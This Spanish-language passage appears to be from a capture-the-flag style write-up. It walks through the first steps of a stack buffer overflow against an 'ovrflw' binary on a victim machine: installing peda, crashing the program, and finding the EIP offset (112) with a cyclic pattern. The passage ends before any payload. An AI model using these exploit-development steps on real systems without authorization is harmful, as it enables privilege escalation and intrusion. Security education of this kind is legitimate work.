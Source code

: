 Installamos peda en la maquina victima:

```bash
cd /tmp
git clone https://github.com/longld/peda.git
export HOME=/tmp
echo "source ~/peda/peda.py" >> ~/.gdbinit
```

#### Analizamos los registros con peda {-}

```bash
gdb ovrflw
> r
> r AAAA
> r $(python -c 'print "A"*500')
```

```{r, echo = FALSE, fig.cap="EBP EIP overwrite", out.width="90%"}
    knitr::include_graphics("images/October-EBP-EIP-overwrite.png")
```

Aqui vemos que el registrop EBP y EIP han sido sobre escribido. 

#### Buscando el tamaño antes de sobre escribir el EIP {-}

Creamos un patron con peda

```bash
> pattern_create 500
gdb-peda$ pattern_create 500
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAg
AA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAA
wAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%J
A%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%u
A%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3As
IAseAs4AsJAsfAs5AsKAsgAs6A'

> r 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAA
wAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%u
A%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A'
```

Si le damos a `p $eip` ya sabemos que es el valor del eip en este caso `0x41384141`. Ya podemos calcular el offset.

```bash
pattern_offset 0x41384141
```

ya nos dice que el offset es de 112.

Lo comprobamos poniendo 112 A y 4 B.

```bash
> r $(python -c 'print "A"*112 + "B"*4)
```
